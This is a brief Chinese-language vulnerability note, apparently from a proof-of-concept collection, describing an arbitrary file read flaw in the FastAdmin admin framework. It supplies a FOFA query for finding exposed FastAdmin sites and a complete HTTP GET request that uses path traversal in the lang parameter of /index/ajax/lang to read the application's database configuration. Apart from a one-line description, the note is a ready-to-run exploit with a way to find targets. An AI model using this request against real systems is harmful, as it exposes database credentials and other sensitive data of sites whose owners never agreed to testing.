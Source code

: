 # FastAdmin框架存在任意文件读取漏洞

### 1.漏洞描述

FastAdmin是一个基于ThinkPHP和Bootstrap的快速开发的后台管理系统框架。FastAdmin框架存在文件读取漏洞漏洞，攻击者利用此漏洞可以获取系统敏感信息。

### 2.fofa语法

```plain
app="FastAdmin"
```

### 3.漏洞复现

```plain
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image-20240619225023548](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240619225023548.png)